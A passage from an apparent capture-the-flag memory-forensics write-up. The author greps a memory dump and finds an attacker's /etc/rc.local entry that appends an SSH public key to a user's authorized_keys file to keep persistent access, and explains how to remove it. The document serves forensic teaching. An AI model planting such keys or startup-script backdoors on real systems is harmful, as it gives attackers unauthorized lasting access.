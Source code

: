 ```
/etc/rc.local
vim /etc/rc.local
```

Besides the many references to `/etc/rc.local` & `vim` being used to read/edit the file, we also see a reference to the `authorized_keys` file and `zed_keys`. I am unsure what `zed_keys` is but I do know that `authorized_keys` is used for SSH to avoid having to login with a password. Instead, a public key is placed inside the `authorized_keys` file and when a user logs in, SSH will check if the user has the corresponding private key. If they do, they're allowed to login. If not, they're denied access.

An attacker may use this in order to maintain access to a machine. The user can change their password all they want, but that won't affect the attacker's access since the attacker is logging in with no password via SSH. The solution is deleting the attacker's public key from the `authorized_keys` file.

So now we know that it's likely that the attacker modified the victim's `authorized_keys` file, let's search the strings of the memory dump for anything relating to the `authorized_keys` file to find more evidence:

`strings dump.mem | grep -i authorized_keys`

```
vin/.ssh/authorized_keys
[m /home/k3vin/.ssh/authorized_keys && 
`authorized_keys
vin/.ssh/authorized_keys
`authorized_keys
[m /home/k3vin/.ssh/authorized_keys && 
vin/.ssh/authorized_keys
[m /home/k3vin/.ssh/authorized_keys && 
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_k`
vin/.ssh/authorized_keys
0 /home/k3vin/.ssh/authorized_keys
AAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys
#!/bin/sh                                                                       # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=                                                                echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys                                                                        ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~               ,
                                                                ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               "/etc/rc.local" 3L, 596C                                      1,1           All zed_keys> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authori
sh/authorized_keys
```